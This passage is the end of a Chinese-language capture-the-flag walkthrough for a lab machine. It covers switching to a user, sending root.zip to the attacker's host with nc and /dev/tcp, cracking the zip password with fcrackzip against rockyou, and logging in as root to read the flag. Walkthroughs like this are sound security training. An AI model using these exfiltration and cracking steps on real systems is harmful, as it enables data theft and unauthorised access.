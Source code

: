 ### 切换用户

```apl
bob
IamDeepEnough
```

发现目录下存在一个压缩包，但是本机没有unzip工具，传到本机来进行解压：

```bash
# kali
nc -lp 8888 > root.zip
# bob
cat root.zip > /dev/tcp/172.20.10.8/8888
```

解压一下：

```bash
┌──(kali💀kali)-[~/temp/deeper]
└─$ ls
root.zip

┌──(kali💀kali)-[~/temp/deeper]
└─$ unzip root.zip   
Archive:  root.zip
[root.zip] root.txt password:

┌──(kali💀kali)-[~/temp/deeper]
└─$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt root.zip

PASSWORD FOUND!!!!: pw == bob

┌──(kali💀kali)-[~/temp/deeper]
└─$ unzip root.zip
Archive:  root.zip
[root.zip] root.txt password: 
 extracting: root.txt                

┌──(kali💀kali)-[~/temp/deeper]
└─$ cat root.txt                                           
root:IhateMyPassword
```

### 切换root

```bash
bob@deeper:~$ su -l root
Password: 
root@deeper:~# pwd
/root
root@deeper:~# ls -la
total 32
drwx------  4 root root 4096 Aug 26  2023 .
drwxr-xr-x 18 root root 4096 Aug 25  2023 ..
lrwxrwxrwx  1 root root    9 Aug 25  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-------  1 root root   20 Aug 25  2023 .lesshst
drwxr-xr-x  3 root root 4096 Aug 25  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Aug 26  2023 root.txt
drwx------  2 root root 4096 Aug 25  2023 .ssh
root@deeper:~# cat root.txt 
dbc56c8328ee4d00bbdb658a8fc3e895
```

至此，结束！

